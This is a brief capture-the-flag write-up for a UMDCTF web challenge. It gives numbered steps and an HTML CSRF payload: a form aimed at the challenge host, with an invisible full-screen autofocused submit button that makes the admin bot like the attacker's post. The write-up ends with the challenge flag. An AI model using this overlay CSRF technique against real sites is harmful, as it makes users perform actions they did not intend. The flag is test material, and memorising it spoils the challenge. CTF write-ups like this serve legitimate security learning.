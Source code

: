 Solution
CSRF to make the admin like our created post

1) Create account
2) Login
3) Create a post with a form that have an autofocused submit button
4) when the admin loads the page, any click or keypress automatically submits the form

```html
<form action="https://a-minecraft-movie-api.challs.umdctf.io/legacy-social" method="POST">
  <input name="sessionNumber" value="23">
  <input name="postId" value="e7181b50-1d30-4c07-ba37-4350383322e3">
  <input name="likes" value="1">
  <input type="submit" autofocus style="position:fixed;top:0;left:0;width:100%;height:100%;opacity:0">
</form>
```

`UMDCTF{I_y3@RNeD_f0R_7HE_Min3S}`

Solved by: aan03